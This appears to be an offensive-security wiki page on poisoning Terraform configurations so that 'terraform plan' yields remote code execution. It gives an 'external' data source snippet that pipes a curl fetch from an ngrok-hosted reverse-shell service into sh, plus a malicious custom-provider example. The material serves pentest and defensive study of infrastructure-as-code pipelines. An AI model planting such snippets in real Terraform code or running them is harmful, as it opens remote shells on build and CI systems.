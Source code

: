 The main way for an attacker to be able to compromise the system where terraform is running is to **compromise the repository that stores terraform configurations**, because at some point they are going to be **interpreted**.

Actually, there are solutions out there that **execute terraform plan/apply automatically after a PR** is created, such as **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

If you are able to compromise a terraform file there are different ways you can perform RCE when someone executed `terraform plan` or `terraform apply`.

#### Terraform plan

Terraform plan is the **most used command** in terraform and developers/solutions using terraform call it all the time, so the **easiest way to get RCE** is to make sure you poison a terraform config file that will execute arbitrary commands in a `terraform plan`.

**Using an external provider**

Terraform offers the [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) which provides a way to interface between Terraform and external programs. You can use the `external` data source to run arbitrary code during a `plan`.

Injecting in a terraform config file something like the following will execute a rev shell when executing `terraform plan`:

```javascript
data "external" "example" {
  program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```

**Using a custom provider**

An attacker could send a [custom provider](https://learn.hashicorp.com/tutorials/terraform/provider-setup) to the [Terraform Registry](https://registry.terraform.io/) and then add it to the Terraform code in a feature branch ([example from here](https://alex.kaskaso.li/post/terraform-plan-rce)):

```javascript
 terraform {
        required_providers {
            evil = {
                source  = "evil/evil"
                    version = "1.0"
            }
        }
    }

provider "evil" {}
```

The provider is downloaded in the `init` and will run the malicious code when `plan` is executed

You can find an example in [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)
